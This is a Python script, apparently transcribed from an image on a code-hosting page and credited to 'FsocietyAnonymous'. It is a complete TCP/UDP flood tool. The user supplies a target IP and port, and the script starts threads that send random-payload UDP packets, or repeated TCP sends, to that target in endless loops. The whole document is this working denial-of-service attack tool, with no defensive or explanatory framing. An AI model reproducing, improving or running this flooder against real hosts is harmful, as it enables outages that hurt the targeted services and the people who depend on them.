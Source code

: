 #!/usr/bin/env python3
#Code by FsocietyAnonymous 
import argparse
import random
import socket
import threading

ap = argparse.ArgumentParser()
ap.add_argument("-i", "--ip", required=True, type=str, help="Host ip")
ap.add_argument("-p", "--port", required=True, type=int, help="Port")
ap.add_argument("-c", "--choice", type=str, default="y", help="UDP(y/n)")
ap.add_argument("-t", "--times", type=int, default=50000, help="Packets per one connection")
ap.add_argument("-th", "--threads", type=int, default=5, help="Threads")
args = vars(ap.parse_args())

print("--> C0de By FsocietyAnonymous <--")
print("#-- TCP/UDP FLOOD --#")
ip = args['ip']
port = args['port']
choice = args['choice']
times = args['times']
threads = args['threads']

def run():
	data = random._urandom(1024)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Sent!!!")
		except:
			print("[!] Error!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Sent!!!")
		except:
			s.close()
			print("[*] Error")

for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
